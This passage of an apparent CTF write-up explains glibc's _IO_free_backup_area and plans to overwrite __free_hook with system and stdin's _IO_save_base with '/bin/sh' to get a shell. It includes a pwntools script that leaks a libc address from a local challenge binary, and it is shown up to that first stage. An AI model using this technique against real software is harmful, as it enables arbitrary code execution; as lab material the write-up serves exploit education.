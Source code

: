 With [`_IO_have_backup`](https://code.woboq.org/userspace/glibc/libio/libioP.h.html#528) is:

```c
#define _IO_have_backup(fp) ((fp)->_IO_save_base != NULL)
```

That means it will check if `(fp)->_IO_save_base` is NULL or not. If it's not null, then calls [`_IO_free_backup_area`](https://code.woboq.org/userspace/glibc/libio/genops.c.html#_IO_free_backup_area) with source as follows:

```c
void
_IO_free_backup_area(FILE * fp) {
    if (_IO_in_backup(fp))
        _IO_switch_to_main_get_area(fp); /* Just in case. */
    free(fp -> _IO_save_base);
    fp -> _IO_save_base = NULL;
    fp -> _IO_save_end = NULL;
    fp -> _IO_backup_base = NULL;
}
libc_hidden_def(_IO_free_backup_area)
```

That means it will free `fp -> _IO_save_base`. Because we have libc address, we can change anything inside of libc which are writable. The idea is to change `__free_hook` to `system` because we want it to execute `system("/bin/sh")`.

The next thing we want to change is `fp -> _IO_save_base` of stdin (because `scanf` use stdin) to address of string `/bin/sh` in libc so that when it `free(fp -> _IO_save_base)`, it will execute `system("/bin/sh")`

Summary:
- Stage 1: Leak libc
- Stage 2: Change `__free_hook`
- Stage 3: Change `fp -> _IO_save_base` of stdin

# 3. Exploit

### Stage 1: Leak libc

First, let's write a script and send to the program the size of `0x23000`:

```python
from pwn import *

libc = ELF('libc-2.27.so', checksec=False)
context.binary = exe = ELF('./three_o_three_patched', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
# p = remote('127.0.0.1', 9999)

input(str(p.pid))
p.sendlineafter(b'Size:', f'{0x23000}'.encode())
libc_leak = int(p.recvline()[:-1].split(b'0x')[1], 16)
log.info('Libc leak: ' + hex(libc_leak))

p.interactive()
```
